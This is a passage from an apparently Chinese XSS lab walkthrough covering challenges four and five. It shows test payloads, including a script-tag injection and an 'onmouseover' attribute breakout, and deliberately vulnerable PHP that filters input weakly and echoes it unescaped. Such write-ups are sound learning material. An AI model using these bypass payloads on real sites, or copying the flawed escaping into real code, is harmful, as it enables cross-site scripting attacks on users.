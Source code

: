 `Result`

![image-20200828143012943](/images/XSS/image-20200828143012943.png)

##### 挑战四

```shell
//基础测试，发现对<、>进行替换为空
`"><script>alert('xss')</script>`
```

![image-20200828143756092](/images/XSS/image-20200828143756092.png)

```shell
//不使用<等类似字符进行测试
`"onmouseover=alert(1)//`
```

```php+HTML
//对输入变量值中<、>进行替换
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level4.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

`Result`

![image-20200828144232008](/images/XSS/image-20200828144232008.png)

##### 挑战五

```shell
//基础测试，发现对<、>进行替换为空
`"><script>alert('xss')</script>`
```

![image-20200828150406623](/images/XSS/image-20200828150406623.png)

```php+HTML
//<script 转换成 <scr_ipt ，on转换成 o_n
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```
